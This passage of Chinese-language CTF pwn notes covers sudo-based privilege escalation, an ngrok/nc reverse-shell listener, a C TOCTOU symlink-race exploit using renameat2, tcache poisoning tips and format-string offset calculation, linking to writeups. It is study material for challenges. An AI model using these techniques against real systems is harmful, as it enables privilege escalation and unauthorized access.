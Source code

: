 注意使用`sudo -l`找到无需密码就能使用root权限的命令后：

```
$ sudo -l
Matching Defaults entries for xxx on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xxx may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/xxx/.server.py
```

假设/home/xxx/.server.py的库已被劫持，要输入`sudo /usr/bin/python3 /home/xxx/.server.py`才能获取root权限。

45. 使用ngrok转发tcp端口,实现反弹远程shell。[How to catch a Reverse shell over the Internet](https://systemweakness.com/how-to-catch-a-reverse-shell-over-the-internet-66d1be5f7bb9)。

```
ngrok tcp 7777
//另一个终端窗口监听指定tcp端口
nc -lv 7777
```

46. 利用[TOCTOU](https://www.cnblogs.com/crybaby/p/13195054.html)([Time of check to time of use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)),race condition(条件竞争)读取非权限内的文件。题目会给出一个利用root权限读取任意文件的程序，但该程序在打开文件前会检查要打开的文件权限是不是执行者的。漏洞点在于程序先检查权限再打开文件，如果我们在检查权限后将要打开的文件改为指向root权限flag的软链接（symlink），就能获取到flag。使用脚本：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

// source https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c
int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

如果使用ssh连接题目服务器，可以另开一个shell窗口，两个shell窗口同时连接服务器。一个窗口运行该脚本，另一个窗口尝试读取flag。只是概率成功，但只要尝试足够多次，一定有一次可以。

47. 有时候`chmod +x file`还不能使文件可运行，这时可以用`chmod a+x file`。参考[此处](https://unix.stackexchange.com/questions/639438/whats-the-difference-between-chmod-ax-and-chmod-x)。
48. [how2heap-Educational Heap Exploitation](https://github.com/shellphish/how2heap/)。一个学习heap的github仓库。
49. 利用tcache dup/uaf/double free或是任何程序内出现的方法更改tcache的fd时，被更改fd的chunk需要是第二个。即tcache链`0x100000->0x200000`中对应0x200000的chunk。较高版本的tcache还有chunk地址检测，要求chunk地址对齐0x10（整除0x10），否则会触发`malloc(): unaligned tcache chunk detected`。
50. [ICS5U](https://github.com/jdabtieu/wxmctf-2023-public/blob/main/pwn2/writeup.md)
- 利用java代码拼接造成的代码注入读取flag文件
- java类中有一种[静态代码块](https://www.cnblogs.com/Qian123/p/5713440.html)(static{})提供初始化，只要类加载就会执行。
51. [All Green](https://github.com/xihzs/ctf-writeups/blob/main/WxMCTF%202023/pwn/All%20Green/README.md)
- 32位格式化字符串漏洞泄露canary+程序PIE基地址。这里跟着[ctf wiki](https://ctf-wiki.org/en/pwn/linux/user-mode/fmtstr/fmtstr-exploit/)总算是彻底会了怎么找要泄露的地址偏移了。首先在printf下个断点，到断点后步入一步进入printf函数。此时查看stack就能看到要泄露的值了。偏移就是用想泄露值处的地址减去栈上格式化字符串偏移的地址再除以4。
- 这题还涉及到使用ebx动态调用函数和普通的ebp取参数。因为是rop调用最终读取flag的函数，所以要把ebx和ebp手动覆盖成需要的值。在这道题里，ebx最后会被赋值，故可以同时覆盖ebx和ebp。
- 顺便提一下64位格式化字符串怎么找偏移。做法相似，(目标地址-格式化字符串所在地址)//8-偏移，其中格式化字符串所在地址是参数在栈上第一次出现的地址，偏移可以用输入8个A然后%p的方式求出。